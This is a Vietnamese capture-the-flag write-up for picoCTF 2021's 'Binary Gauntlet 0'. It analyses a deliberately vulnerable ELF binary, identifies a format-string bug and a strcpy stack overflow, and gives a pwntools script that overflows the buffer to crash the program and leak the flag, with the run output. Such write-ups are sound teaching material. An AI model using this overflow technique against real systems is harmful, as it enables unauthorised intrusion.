 # Binary Gauntlet 0

## Kiểm tra file
### file
```bash
gauntlet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=a5c4ce8cddd5ece25b706af8d250134c3f70467c, not stripped
```
### checksec
```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
- Định dạng ELF 64-bit
- Not stripped -> Ta có thể dễ dàng tìm được các hàm trong chương trình
- No Stack Canary, no NX, no PIE, has RWX segments -> Easy BOF
## Decompile & Disassemble
### Decompile `main`
```c
undefined8 main(void)
{
  char local_88 [108];
  __gid_t local_1c;
  FILE *local_18;
  char *local_10;
  
  local_10 = (char *)malloc(1000);
  local_18 = fopen("flag.txt","r");
  if (local_18 == (FILE *)0x0) {
    puts(
        "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are runningthis on the shell server."
        );
    exit(0);
  }
  fgets(flag,0x40,local_18);
  signal(0xb,sigsegv_handler);
  local_1c = getegid();
  setresgid(local_1c,local_1c,local_1c);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  printf(local_10);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  strcpy(local_88,local_10);
  return 0;
}
```
### Decompile `sigsegv_handler`
```C
void sigsegv_handler(void)
{
  fprintf(stderr,"%s\n",flag);
  fflush(stderr);               
  exit(1);
}
```
Hàm `sigsegv_handler` sẽ in ra flag. Khi hàm `signal` được gọi, nó sẽ thực thi `sigsegv_handler`. Vậy chỉ cần làm cho chương trình báo lỗi, ta sẽ có được flag.

Chương trình nhận vào 1 input rồi in input đó ra màn hình, sau đó nhận input thứ 2 rồi gọi hàm `strcpy`.
Có 2 lỗi ở hàm main:
1. `printf(local_10)` -> Lỗi chuỗi định dạng (Format String)
2. `strcpy(local_88, local_10)` -> `strcpy` không kiểm tra số lượng kí tự ở dest -> Tràn bộ đệm tại dest nếu không được cấp phát đủ vùng nhớ để chứa chuỗi src (Buffer Overflow)

Vậy bài này có 2 hướng khai thác, nhưng vì người viết chương trình đã tốt bụng tắt hết các cơ chế bảo vệ, chúng ta sẽ dùng cách gây tràn vùng nhớ biến local_88 vì nó được đặt trong stack, dễ dàng ghi đè return address và gây lỗi.
### Disassemble main
```asm
0x000000000040090d <+0>:	push   rbp
0x000000000040090e <+1>:	mov    rbp,rsp
0x0000000000400911 <+4>:	sub    rsp,0x90
0x0000000000400918 <+11>:	mov    DWORD PTR [rbp-0x84],edi
0x000000000040091e <+17>:	mov    QWORD PTR [rbp-0x90],rsi
0x0000000000400925 <+24>:	mov    edi,0x3e8
0x000000000040092a <+29>:	call   0x400790 <malloc@plt>
0x000000000040092f <+34>:	mov    QWORD PTR [rbp-0x8],rax
0x0000000000400933 <+38>:	lea    rsi,[rip+0x192]        # 0x400acc
0x000000000040093a <+45>:	lea    rdi,[rip+0x18d]        # 0x400ace
0x0000000000400941 <+52>:	call   0x4007c0 <fopen@plt>
0x0000000000400946 <+57>:	mov    QWORD PTR [rbp-0x10],rax
0x000000000040094a <+61>:	cmp    QWORD PTR [rbp-0x10],0x0
0x000000000040094f <+66>:	jne    0x400967 <main+90>
0x0000000000400951 <+68>:	lea    rdi,[rip+0x180]        # 0x400ad8
0x0000000000400958 <+75>:	call   0x400730 <puts@plt>
0x000000000040095d <+80>:	mov    edi,0x0
0x0000000000400962 <+85>:	call   0x4007d0 <exit@plt>
0x0000000000400967 <+90>:	mov    rax,QWORD PTR [rbp-0x10]
0x000000000040096b <+94>:	mov    rdx,rax
0x000000000040096e <+97>:	mov    esi,0x40
0x0000000000400973 <+102>:	lea    rdi,[rip+0x200766]        # 0x6010e0 <flag>
0x000000000040097a <+109>:	call   0x400760 <fgets@plt>
0x000000000040097f <+114>:	lea    rsi,[rip+0xffffffffffffff41]        # 0x4008c7 <sigsegv_handler>
0x0000000000400986 <+121>:	mov    edi,0xb
0x000000000040098b <+126>:	call   0x400770 <signal@plt>
0x0000000000400990 <+131>:	mov    eax,0x0
0x0000000000400995 <+136>:	call   0x4007b0 <getegid@plt>
0x000000000040099a <+141>:	mov    DWORD PTR [rbp-0x14],eax
0x000000000040099d <+144>:	mov    edx,DWORD PTR [rbp-0x14]
0x00000000004009a0 <+147>:	mov    ecx,DWORD PTR [rbp-0x14]
0x00000000004009a3 <+150>:	mov    eax,DWORD PTR [rbp-0x14]
0x00000000004009a6 <+153>:	mov    esi,ecx
0x00000000004009a8 <+155>:	mov    edi,eax
0x00000000004009aa <+157>:	mov    eax,0x0
0x00000000004009af <+162>:	call   0x400740 <setresgid@plt>
0x00000000004009b4 <+167>:	mov    rdx,QWORD PTR [rip+0x2006f5]        # 0x6010b0 <stdin@@GLIBC_2.2.5>
0x00000000004009bb <+174>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004009bf <+178>:	mov    esi,0x3e8
0x00000000004009c4 <+183>:	mov    rdi,rax
0x00000000004009c7 <+186>:	call   0x400760 <fgets@plt>
0x00000000004009cc <+191>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004009d0 <+195>:	add    rax,0x3e7
0x00000000004009d6 <+201>:	mov    BYTE PTR [rax],0x0
0x00000000004009d9 <+204>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004009dd <+208>:	mov    rdi,rax
0x00000000004009e0 <+211>:	mov    eax,0x0
0x00000000004009e5 <+216>:	call   0x400750 <printf@plt>
0x00000000004009ea <+221>:	mov    rax,QWORD PTR [rip+0x2006af]        # 0x6010a0 <stdout@@GLIBC_2.2.5>
0x00000000004009f1 <+228>:	mov    rdi,rax
0x00000000004009f4 <+231>:	call   0x4007a0 <fflush@plt>
0x00000000004009f9 <+236>:	mov    rdx,QWORD PTR [rip+0x2006b0]        # 0x6010b0 <stdin@@GLIBC_2.2.5>
0x0000000000400a00 <+243>:	mov    rax,QWORD PTR [rbp-0x8]
0x0000000000400a04 <+247>:	mov    esi,0x3e8
0x0000000000400a09 <+252>:	mov    rdi,rax
0x0000000000400a0c <+255>:	call   0x400760 <fgets@plt>
0x0000000000400a11 <+260>:	mov    rax,QWORD PTR [rbp-0x8]
0x0000000000400a15 <+264>:	add    rax,0x3e7
0x0000000000400a1b <+270>:	mov    BYTE PTR [rax],0x0
0x0000000000400a1e <+273>:	mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000400a22 <+277>:	lea    rax,[rbp-0x80]
0x0000000000400a26 <+281>:	mov    rsi,rdx
0x0000000000400a29 <+284>:	mov    rdi,rax
0x0000000000400a2c <+287>:	call   0x400720 <strcpy@plt>
0x0000000000400a31 <+292>:	mov    eax,0x0
0x0000000000400a36 <+297>:	leave  
0x0000000000400a37 <+298>:	ret    
```
Gọi hàm `strcpy`
```asm
0x0000000000400a1e <+273>:	mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000400a22 <+277>:	lea    rax,[rbp-0x80]
0x0000000000400a26 <+281>:	mov    rsi,rdx
0x0000000000400a29 <+284>:	mov    rdi,rax
0x0000000000400a2c <+287>:	call   0x400720 <strcpy@plt>
```
Biến local_88 nằm ở [rbp - 0x80]. Chúng ta cần 0x90 bytes để ghi đè return address và gây `sigsegv`

## Exploit
### exploit.py
```python
from pwn import *

context.binary = ELF("./gauntlet")
run = remote("mercury.picoctf.net", 12294)

run.sendline("Pwned")
payload = 'A' * 0x90
run.sendline(payload)

run.interactive()
```
## Output
```bash
[*] '/home/revirven/Desktop/GitHub/CTF-Writeups/PicoCTF-2021/Binary-Exploitation/Binary-Gauntlet-0/gauntlet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to mercury.picoctf.net on port 12294: Done
[*] Switching to interactive mode
Pwned
fbd01d62c0e369e6de3d63b4b21d3830

[*] Got EOF while reading in interactive
$ 
```
